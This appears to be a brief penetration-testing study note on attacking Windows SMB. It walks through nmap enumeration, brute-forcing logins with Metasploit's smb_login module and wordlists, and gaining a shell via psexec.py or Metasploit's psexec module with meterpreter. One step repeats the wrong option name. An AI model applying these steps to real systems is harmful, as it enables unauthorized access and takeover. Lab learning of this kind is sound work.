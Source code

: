 # Exploiting SMB

PS Exec requires legitimate credentials  
SMB login brute force attach is the best attack for this  - _We can narrow down to the username **Administrator**_

## Enumerate
Use nmap -sC -sV to verify SMB version  
Message signing enabled but not required - This means we can authenticate with PSexec

## Brute Force
```service postgresql start && msfconsole```

**Module** - auxiliary/scanner/smb/smb_login
user file - ```set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt```  
Password file - ```set user_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt```  
Turn off Verbose

## psexec.py 
Since we cannot run .exe files on linux, we are going to use psexec.py

``psexec.py (username)@(Target IP address) cmd.exe```

## Extending attack - Metasploit
**Module** - exploit/windows/smb/psexec  
This will authenticate through SMB and upload a meterpreter shell
